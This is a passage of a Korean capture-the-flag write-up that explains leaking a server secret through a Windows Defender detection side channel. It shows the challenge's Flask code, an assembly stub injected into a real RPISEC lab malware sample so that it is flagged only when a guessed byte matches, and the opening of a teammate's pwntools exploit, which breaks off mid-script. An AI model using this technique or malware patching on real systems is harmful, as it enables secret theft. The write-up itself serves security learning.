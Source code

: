 ```python
    try:
        blob = lru.read(id.hex)
    except KeyError:
        abort(404)
    data = blob[: -len(SECRET)]
    if data + SECRET != blob:
        abort(500)
    return data


if __name__ == "__main__":
    app.run()

```

살펴보면 `SECRET` 값을 유저가 보낸 `data`의 뒤에 덧붙이기 때문에, 위와 같이 JavaScript 코드를 통한 AV Oracle이 불가능함을 알 수 있습니다. 그렇다면 어떻게 트리거 해야 할까요? 답은 일반적인 [PE Binary](https://ko.wikipedia.org/wiki/PE_%ED%8F%AC%EB%A7%B7)를 보내는 것입니다.

문제는 PE 바이너리를 통해서 EICAR string을 통해 쉽게 trigger가 되지 않는다는 점인데요, 이를 풀기 위해서 결국 실제 Malware를 사용해야 했습니다. 그 중에서도 쓰기 쉬운 포맷이 바로 RPISEC의 Malware course에서 제공하는 Lab04의 Malware입니다. ([링크](https://github.com/RPISEC/Malware/blob/master/Labs/Lab_04/Lab_04.zip)) Lab_04-1.malware는 용량이 작을 뿐만 아니라 바이너리의 맨 끝부분이 코드 영역이라는 특징을 가지고 있습니다. 이러한 특성 덕분에 Instruction pointer 값을 얻어내면 바이너리의 맨 끝부분에 덧붙여진 `SECRET`의 위치를 쉽게 알아낼 수 있습니다. 이는 AV Oracle이 필요한 일반적인 상황에서 매우 강력한 특성이기 때문에 기억해두시면 좋을 것 같습니다.

받은 값에 따라서 Malware가 되거나 되지 않게끔 해서 Windows Defender를 trigger해야하기 때문에, 다음과 같은 코드를 해당 Malware의 중간에 inject 합니다.

```assembly
call a
a:
pop ebx			; get eip
add ebx, %d		; %d는 SECRET의 위치
xor eax, eax	; eax = 0
mov al, byte ptr [ebx]
cmp al, %d		; compare
jz b
int 0x3			; 아닐 경우 Malware part로 넘어가지 않고 die
b:				; 이 이후는 Malware part
```

같은 팀원 분이 작성한 exploit입니다. (위의 Malware sample도 직접 찾아오셔서 코드를 작성하셨습니다. 많은 것을 배웠습니다...)

```python
#!/usr/bin/env python2 
import requests
import time
import string

# 31 C0 83 F8 01 EB 01 90 90 CC CC
a = open('Lab_04-1.malware', 'rb').read()

b = a[:512]
c = a[512:]

from pwn import *

import string

def gogo(index, t):
    payload = asm(('''
            call a
            a:
            pop ebx
            add ebx, %d
            xor eax, eax
```